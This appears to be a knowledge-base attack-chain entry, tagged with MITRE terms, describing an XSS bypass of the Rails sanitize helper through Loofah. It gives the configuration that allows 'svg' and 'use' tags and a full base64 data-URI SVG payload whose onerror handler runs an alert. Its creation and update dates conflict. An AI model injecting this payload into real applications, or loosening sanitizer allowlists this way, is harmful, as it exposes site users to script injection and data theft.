

---
tags:
  - xss
  - rails
  - svg
  - loofah
  - sanitize
  - bypass
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
commands:
  - '[[commands/rails-sanitize-html-with-svg-tags]]'
platforms:
  - Web
complexity: medium
procedures:
  - >-
    [[procedures/Configure-Rails-ActionView-Sanitizer-to-Allow-SVG-and-Use-Tags]]
  - '[[procedures/Inject-Malicious-SVG-Payload-Using-Base64-Data-URI]]'
  - '[[procedures/Trigger-XSS-Payload-via-OnError-Handler]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
description: >-
  A multi-stage attack exploiting a sanitization bypass in Rails ActionView
  using the Loofah gem to inject XSS via SVG 'use' tag with base64-encoded data
  URI.
skill_level: intermediate
impact_level: high
id: a7f250e5-c9f2-4dc4-b3c9-a69505699c8d
created_at: '2025-12-13T23:52:34.191Z'
updated_at: '2025-12-13T23:52:34.191Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# XSS-Bypass-via-SVG-Use-Tag-in-Rails-Sanitize-Helper

Multi-stage attack chain demonstrating a complete attack workflow exploiting a vulnerability in the Rails ActionView sanitize helper powered by Loofah gem (versions >=2.1.0 <2.19.1). The attack bypasses sanitization by allowing 'svg' and 'use' tags, injecting a malicious payload with a base64-encoded data URI that embeds an SVG containing an onerror JavaScript handler, leading to XSS execution.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (requires access to Rails application code or admin privileges to modify configuration)

### Target Environment

- Ruby on Rails application using Loofah gem >=2.1.0 <2.19.1
- ERB templates (e.g., index.html.erb)
- Web browser for payload execution

### Initial Access Requirements

- Developer or admin access to modify Rails config or templates
- Or user input field sanitized with allowed SVG tags
- Network access to the web application

## Detailed Attack Procedures

### Step 1: Configure Sanitizer
procedure: [[procedures/Configure-Rails-ActionView-Sanitizer-to-Allow-SVG-and-Use-Tags]]

**Objective**: Enable the sanitizer to permit 'svg' and 'use' tags, creating the condition for the bypass.

**Instructions**: Modify the Rails configuration globally or inline in the ERB template to allow the necessary tags. For global config in config/application.rb or initializer:

```ruby
config.action_view.sanitized_allowed_tags = ['svg', 'use']
```

For inline in index.html.erb:

```erb
<%= sanitize user_input, tags: %w(svg use) %>
```

**Expected Output**: Sanitizer configuration updated; subsequent sanitize calls will not strip 'svg' or 'use' tags.

**Success Indicators**:
- No errors on Rails startup after config change
- Test sanitize call renders SVG tags without stripping

### Step 2: Inject Payload
procedure: [[procedures/Inject-Malicious-SVG-Payload-Using-Base64-Data-URI]]

**Objective**: Embed a malicious SVG payload using the 'use' tag with a base64-encoded data URI that contains XSS code.

**Instructions**: In an ERB template like index.html.erb, use the sanitize helper with the allowed tags to inject the payload. Execute [[commands/rails-sanitize-html-with-svg-tags]]:

```erb
<%= sanitize "<svg><use href=\"data:image/svg+xml;base64,PHN2ZyBpZD0neCcgeG1sbnM9J2h0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnJyB4bWxuczp4bGluaz0naHR0cDovL3d3dy53My5vcmcvMTk5OS94bGluaycgd2lkdGg9JzEzMzcnIGhlaWdodD0nMTMzNyc+CjxpbWFnZSBocmVmPSIxIiBvbmVycm9yPSJhbGVydCh3aW5kb3cub3JpZ2luKSIgLz4KPC9zdmc+#x\"/"></svg>", tags: %w(svg use) %>
```

This decodes to an inner SVG with an <image> tag that has an onerror handler.

**Expected Output**: The SVG renders without sanitization errors; base64 URI loads the malicious SVG.

**Success Indicators**:
- Payload appears in the rendered HTML without being stripped
- No Rails errors on rendering the template

### Step 3: Trigger Payload
procedure: [[procedures/Trigger-XSS-Payload-via-OnError-Handler]]

**Objective**: Load the page to execute the XSS payload, triggering JavaScript via the onerror event.

**Instructions**: Access the rendered page in a web browser. The 'use' tag will fetch and render the data URI, causing the <image> element's href="1" (invalid) to fire onerror="alert(window.origin)", executing the JS.

**Expected Output**: Browser alert box showing the origin URL, confirming XSS execution.

**Success Indicators**:
- JavaScript alert pops up
- Inspect element shows the decoded SVG structure

## Attack Chain Summary

### Key Achievements

1. Bypassed Rails sanitization by allowing SVG tags
2. Injected and rendered malicious base64-encoded SVG payload
3. Executed arbitrary JavaScript, enabling data theft or further attacks

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01*
